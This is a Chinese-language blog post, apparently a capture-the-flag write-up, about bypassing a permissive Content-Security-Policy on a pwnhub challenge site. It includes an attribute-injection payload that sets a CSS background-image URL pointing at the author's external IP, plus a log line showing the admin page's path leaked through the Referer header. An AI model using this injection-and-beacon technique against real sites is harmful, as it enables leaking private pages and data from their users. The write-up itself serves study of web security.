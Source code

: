 ```yaml
---
title: pwnhub 打开电脑
date: 2017-02-20 02:15:46
tags:
- pwnhub
- xss
- csp
categories:
- Blogs
---
```


这是个比较特别的题目，开始上来逛了逛发现其实挺迷的...

<!--more-->

```
题目介绍

http://52.80.1.108:6666

2017.02.18 20:00:00没有SQL注入，仔细看CSP头。
2017.02.18 12:00:00管理员只爱看有意思的东西，谁关心bug啊哈哈哈哈。
```

看看站内的功能，min.php和max.php可以提交md5，会显示最大或者最小的md5，但是输入的地方存在正则，研究了一下发现不能输入任何符号，也就意味着这里不存在问题。

有个contact和report bug，content提交有趣的md5，但不同的是，没有正则提示，很多都提示提交成功，report bug就更是了，没任何check。

根据提示我们把report bug扔下，研究contact，先看看CSP

CSP
```
Content-Security-Policy: default-src *; img-src * data: blob:; frame-src 'self'; script-src 'self' cdn.bootcss.com 'unsafe-eval'; style-src 'self' cdn.bootcss.com 'unsafe-inline'; connect-src * wss:;
```


由于contact和minmax的功能相似，猜测后台的输出方式相似，所以仔细观察min.php，最奇怪的其实是输出点，输出点后没有引号包裹，也就意味着即便使用了htmlspecialchars过滤了"和<，但是我们仍然可以dom <del>xss</del>

```

 <a id="modal" class="detail" href="#detail" data-toggle="modal"
                           contributor=aaangelwhu hexdata=672e65613167722e333170366572657265726572657265>fffffffffffe53cdbc640fffb934cfb8</a>

```

但是一切的问题都在CSP，内联的脚本是不会被执行的，但这里有好多*啊

```
img-src *
style-src unsafe-inline
connect-src *
font-src *
media-src *
object-src *
```

style可以设置啊，然后style里有个<del>font-src可以随便设置</del>

关于字体的绕过方式，我仍然不知道是不是有效的，但我稍微尝试了下发现语法不同，也许是不熟悉吧，但我肯定是智障了，css可以设置背景图片啊，img-src是*啊，所以payload

```
aaang style=background-image:url('http://119.29.192.14')
```

收到了请求
```
115.159.200.107 - - [19/Feb/2017:03:21:31 +0800] "GET / HTTP/1.1" 304 0 "http://52.80.1.108:6666/d9aba78484e6d3325f88f0e8826191e9/admin.php" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
```


但想了一晚上为啥是404，我怕是智障了

![image_1b9a7v94vr64up1alh1jkcq3r9.png-102.8kB][1]

试到flag.php

![image_1b9a8efhs12qe1ktq124drc6podm.png-62.1kB][2]


  [1]: http://static.zybuluo.com/LoRexxar/oaum49esbcd46h8i0g2oni34/image_1b9a7v94vr64up1alh1jkcq3r9.png
  [2]: http://static.zybuluo.com/LoRexxar/g5bdewuyr3z0vmqbuwyrmonc/image_1b9a8efhs12qe1ktq124drc6podm.png